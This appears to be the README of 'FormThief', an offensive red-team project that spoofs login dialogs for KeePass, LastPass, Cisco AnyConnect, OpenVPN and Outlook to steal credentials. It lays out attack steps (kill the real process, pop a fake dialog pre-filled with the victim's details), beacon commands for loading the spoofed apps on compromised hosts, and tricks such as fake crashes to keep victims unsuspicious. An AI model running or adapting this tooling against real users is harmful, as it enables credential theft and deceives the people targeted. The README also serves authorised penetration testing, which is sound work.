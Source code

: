 # FormThief

FormThief is a project designed for spoofing Windows desktop login applications using WinForms and WPF. Below is an example run for KeePass (additional examples can be found in the 'Demos' folder):

[FormThief-KeePass.webm](https://github.com/mlcsec/FormThief-NewTest/assets/47215311/6a903ea2-1cc4-4039-a7fc-8ecc9415d693)


<br>

## Introduction

Windows Forms (WinForms) and Windows Presentation Foundation (WPF) are two powerful UI frameworks provided by Microsoft for building desktop applications on the Windows platform. While they are primarily used for developing software, they also offer a unique opportunity for spoofing login functions for legitimate Windows desktop applications.

The idea behind this was to identify desktop applications used by the target organisation, tailor a malicious forms application to the specific victim, then load the spoofed login application via beacon to capture user credentials. 

- [Cisco AnyConnect](#cisco-anyconnect)
- [KeePass](#keepass)
- [LastPass](#lastpass)
- [OpenVPN](#openvpn)
- [Windows Security (Outlook)](#windows-security-outlook)

I'm working on several others and will keep adding to this repo. Bitwarden is nearly finished; however, I encountered limitations with WinForms when replicating Bitwarden and LastPass. I will be porting both to WPF as soon as possible.

Improvements could  be made to incorporate greater application functionality, I've only attempted to replicate the processes necessary to capture user credentials. If users are persistant in trying to access other areas of the application I've added click counters which will trigger an exit or 'crash' the app so the victim doesn't become too suspicious when things aren't working as they normally would.

<br>

## Prereqs

Information on application process executables, prereqs for creating convincing dialogs, and example attack vectors:

| Application          | Executables | Prereqs | Example Attack Vector
|:-------------         |:--------------------|:---------------|:---------------|
| Cisco AnyConnect     | vpnui.exe/vpnagent.exe  | procsearch ui process for "Connected", should show 'Connected to xyz...' . <br><br>An XML file located in `C:\ProgramData\Cisco\Cisco AnyConnect Secure Mobility Client\Profile\` should also contain available hostnames/gateways for the host | Identify the current connection gateway -> kill process -> pop new auth dialog with identified gateway |
| KeePass              | KeePass.exe               | Identify any .kdbx files on the host (trying to dump the active .kdbx db with procsearch fails) | Kill process -> pop new auth dialog with .kdbx file path|
| LastPass              | lpwinmetro.exe              | procsearch LastPass process for "email" to identify active email address | Kill process -> pop new auth dialog with identified email|
| OpenVPN                      | openvpn.exe       |  procsearch OpenVPN process for ".ovpn" to identify active profile | Kill process -> pop new auth dialog with target VPN profile|
| Windows Security (Outlook)   | OUTLOOK.exe/olk.exe       | procsearch Outlook process for "email" to identify active email address | Kill process -> pop new auth dialog with extracted email|

Functionality within the included applications is fairly modular so it can be easily copy/pasted when creating new forms. Several items in [proctools](https://github.com/mlcsec/proctools), which was created whilst working on this project, may also come in handy.

<br>

# Usage

Clone the repo. Load the target application solution. Allow unsafe code and untick Prefer 32-bit. Build.

All applications except Windows Security (Outlook) work via [inlineExecute-Assembly](https://github.com/anthemtotheego/InlineExecute-Assembly) and [bofnet_executeassembly](https://github.com/williamknows/BOF.NET). I've inlcuded a simple C# script (wpfRunner.cs) for downloading the WPF Outlook.exe to the victim's `%TEMP%` and executing directly from the host, not ideal but it works fine. Will update with a workaround.

> NOTE: Only tested on Windows 10, NOT tested on Windows 11

All code confirmed working locally and via beacon at time of release. Please don't hesitate to reach out with any issues or contributions.

## Cisco AnyConnect

```
beacon> inlineExecuteAssembly --dotnetassembly C:\Tools\CiscoAnyConnect.exe --assemblyargs "target.vpn.hostname"
```
```
beacon> bofnet_executeassembly CiscoAnyConnect target.vpn.hostname
```
![image](https://github.com/mlcsec/FormThief-NewTest/assets/47215311/963da32b-413a-46cc-b8e2-815aa4daa718)


## KeePass

```
beacon> inlineExecuteAssembly --dotnetassembly C:\Tools\KeePass.exe --assemblyargs "C:\path\to\target\passwords.kdbx"
```
```
beacon> bofnet_executeassembly KeePass "C:\path\to\target\passwords.kdbx"
```

![image](https://github.com/mlcsec/FormThief-NewTest/assets/47215311/34072b92-0b37-48cc-8c70-e0d806ca15c6)


## LastPass

```
beacon> inlineExecuteAssembly --dotnetassembly C:\Tools\LastPass.exe --assemblyargs "victim@domain.com"
```
```
beacon> bofnet_executeassembly LastPass "victim@domain.com"
```

![image](https://github.com/mlcsec/FormThief-NewTest/assets/47215311/68626b1b-528b-4631-a882-f5e852367894)


## OpenVPN

```
beacon> inlineExecuteAssembly --dotnetassembly C:\Tools\OpenVPN.exe --assemblyargs "target.vpn.profile"
```
```
beacon> bofnet_executeassembly OpenVPN target.vpn.profile
```

![image](https://github.com/mlcsec/FormThief-NewTest/assets/47215311/11749727-cac9-4fe7-97db-331ae4a44975)


## Windows Security (Outlook)

ModernWpfUI and Costura.Fody used. Right click project > Manage NuGet Packages... 
- click the "restore" button at the top of the window and you should be good to go

Simple workaround for issues running via `inlineExecute-Assembly` or `bofnet_executeassembly`:

```
beacon> inlineExecuteAssembly --dotnetassembly C:\Tools\wpfRunner.exe --assemblyargs "victim@domain.com"
```

![image](https://github.com/mlcsec/FormThief-NewTest/assets/47215311/cf642b1a-3593-4a8c-9c13-6fb30ce1f3a9)


<br>

# Observations

Few things to consider when creating WinForms or WPF applications for engagements:

- If `inlineExecute-Assembly` doesn't 'finish' the beacon will likely die
  - `bofnet_executeassembly` tends to be safer as it will display any errors in output without killing the beacon
- WinForms tends to produce smaller binaries than WPF
  - considerably so if using ModernWpfUI or wpfui
- Styling and rendering of forms/dialogs may change from one OS to another so test thoroughly
  - also running locally on a host vs. running via inlineExecute or BOFNET on the same host may alter the appearance so check both ways 

<br>

# Todo

- [ ] Finish and upload Bitwarden WinForms version
  - also port to WPF
- [ ] Capture creds -> encrypt/encode -> send out to teamserver without touching disk
- [ ] Resource/memory deallocation/cleanup issues when running consecutively (need to debug)
  - Some applications may only work once from the current beacon process (creating a new beacon and running again works fine). It won't crash the beacon on consecutive attempts but the application may not load correctly on second run
- [ ] Workaround for STA errors when running WPF app via inlineExecute/BOFNET
  - tried implementing some workarounds for this but no luck yet, running directly from the host is easiest workaround at present
